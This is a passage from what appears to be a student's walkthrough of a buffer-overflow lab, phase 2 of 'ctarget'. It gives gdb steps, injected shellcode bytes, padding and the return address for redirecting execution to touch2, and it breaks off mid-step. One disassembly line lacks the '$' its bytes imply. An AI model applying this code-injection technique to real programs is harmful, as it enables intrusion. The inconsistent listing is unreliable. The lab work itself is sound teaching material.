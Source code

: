     Disassembly of section .text:

    0000000000000000 <.text>:
      0:	48 c7 c7 f1 1e d6 5c 	mov    0x5cd61ef1,%rdi
      7:	c3                   	retq   
    ```
  * copy values in second section (between `0:` and `mov` and between `7:` and `retq`) into a phase2sol.txt file
  * add the size 40 buffer after the first line
    ```
    48 c7 c7 f1 1e d6 5c c3
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    ```
  * run gdb on ctarget with breakpoint at getbuf
    * `gdb ctarget`
    * `(gdb) b getbuf`
  * get register information
    * `info r`
    * copy `rsp` value
      * `0x556704a0`
    * subtract value by `0x28`, the buffer size
      * `0x55670478` is the result
  * enter in `phase_2.txt`, again in reverse order and add buffers
    ```
    48 c7 c7 f1 1e d6 5c c3
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    78 04 67 55 00 00 00 00
    ```
  * now look at touch2
  ```
  0000000000401494 <touch2>:
    401494:	48 83 ec 08          	sub    $0x8,%rsp
    401498:	89 fa                	mov    %edi,%edx
    40149a:	c7 05 d8 e4 2e 00 02 	movl   $0x2,0x2ee4d8(%rip)        # 6ef97c <vlevel>
    4014a1:	00 00 00 
    4014a4:	39 3d da e4 2e 00    	cmp    %edi,0x2ee4da(%rip)        # 6ef984 <cookie>
    4014aa:	74 2a                	je     4014d6 <touch2+0x42>
    4014ac:	48 8d 35 f5 08 0c 00 	lea    0xc08f5(%rip),%rsi        # 4c1da8 <_IO_stdin_used+0x2c8>
    4014b3:	bf 01 00 00 00       	mov    $0x1,%edi
    4014b8:	b8 00 00 00 00       	mov    $0x0,%eax
    4014bd:	e8 0e 00 05 00       	callq  4514d0 <___printf_chk>
    4014c2:	bf 02 00 00 00       	mov    $0x2,%edi
    4014c7:	e8 8c 05 00 00       	callq  401a58 <fail>
    4014cc:	bf 00 00 00 00       	mov    $0x0,%edi
    4014d1:	e8 9a f7 00 00       	callq  410c70 <exit>
    4014d6:	48 8d 35 a3 08 0c 00 	lea    0xc08a3(%rip),%rsi        # 4c1d80 <_IO_stdin_used+0x2a0>
    4014dd:	bf 01 00 00 00       	mov    $0x1,%edi
    4014e2:	b8 00 00 00 00       	mov    $0x0,%eax
    4014e7:	e8 e4 ff 04 00       	callq  4514d0 <___printf_chk>
    4014ec:	bf 02 00 00 00       	mov    $0x2,%edi
    4014f1:	e8 6a 04 00 00       	callq  401960 <validate>
    4014f6:	eb d4                	jmp    4014cc <touch2+0x38>
  ```
  * enter touch2 address into phase2sol.txt, again in reverse order
    ```
    48 c7 c7 f1 1e d6 5c c3